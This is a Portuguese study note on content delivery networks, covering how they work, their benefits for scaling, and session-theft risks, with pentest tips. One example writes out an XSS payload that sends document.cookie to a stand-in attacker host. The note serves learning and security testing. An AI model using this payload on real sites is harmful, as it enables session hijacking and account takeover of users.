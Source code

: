 ## O que é CDN?

CDN significa **Content Delivery Network** (Rede de Distribuição de Conteúdo). É um **conjunto de servidores distribuídos geograficamente** que trabalham juntos para **entregar conteúdo web de forma rápida e eficiente** aos usuários.

---

## Como funciona?

Quando você acessa um site que usa CDN, o conteúdo estático (imagens, CSS, JS, vídeos, etc.) **não vem diretamente do servidor principal (origem)**, mas sim de **servidores CDN próximos da sua localização**.

### Exemplo:

- Você está no Brasil e acessa amazon.com.
    
- O conteúdo estático vem de um servidor CDN no Brasil ou América do Sul.
    
- Resultado: o site **carrega mais rápido**, mesmo sendo hospedado nos EUA.
    

---

## Benefícios do CDN

|Benefício|Explicação|
|---|---|
|**Velocidade**|Carrega o conteúdo mais próximo do usuário. Menos latência.|
|**Menos carga no servidor**|Reduz o número de requisições no servidor principal (origem).|
|**Alta disponibilidade**|Mesmo que um servidor caia, outro entra em ação.|
|**Escalabilidade**|Suporta grande volume de tráfego em datas como Black Friday ou lançamentos.|
|**Segurança**|Ajuda a mitigar ataques DDoS, esconder IP real do servidor de origem.|

---

## Como o CDN ajuda na **escala do sistema**?

Imagine que você tem um site com milhões de acessos simultâneos (ex: Netflix, Amazon, GloboPlay). Se tudo for processado por um único servidor, ele **sobrecarrega e cai**.

Com um CDN:

- O **tráfego é distribuído** por diversos pontos do mundo.
    
- Cada visitante acessa o conteúdo de um servidor **próximo a ele**.
    
- O servidor principal **fica responsável só pelo que é dinâmico**, como login ou banco de dados.
    

---

## CDN pode expor informações?

Sim, em casos de **configurações erradas** ou **vazamento de cookies/sessões**, o uso de CDN **não impede que um atacante intercepte ou roube sessões**. E isso é essencial para quem faz **pentest** entender.

### Exemplo de risco:

- O servidor entrega um **cookie de sessão** via CDN ou cabeçalho mal configurado.
    
- Se esse cookie **não for marcado como `HttpOnly` e `Secure`**, pode ser interceptado.
    
- Se o cookie for enviado a um domínio de CDN (ou malicioso), o atacante pode **roubar a sessão do usuário**.
    

---

## Exemplo prático (sessão roubada):

1. O servidor envia:
    
    ```
    Set-Cookie: sessionid=abc123; Path=/; Domain=.meusite.com
    ```
    
2. O atacante injeta um JS por XSS:
    
    ```javascript
    document.location = "https://meusite.attacker.com?cookie=" + document.cookie;
    ```
    
3. O cookie vai parar no servidor do atacante.
    
4. O atacante usa a sessão e **acessa a conta da vítima.**
    

---

## Ferramentas comuns de CDN

- **Cloudflare**
    
- **Akamai**
    
- **AWS CloudFront**
    
- **Google Cloud CDN**
    
- **Fastly**
    

---

## Dica de pentest

Durante o teste, identifique:

- Qual CDN está sendo usado (ferramentas como `Wappalyzer` ou `dig`).
    
- Se cookies são vazados via headers mal configurados.
    
- Se há dependência de **CDNs de terceiros** com JS potencialmente malicioso.
    
- Se o CDN está **expondo a origem** do servidor real (ex: DNS mal configurado).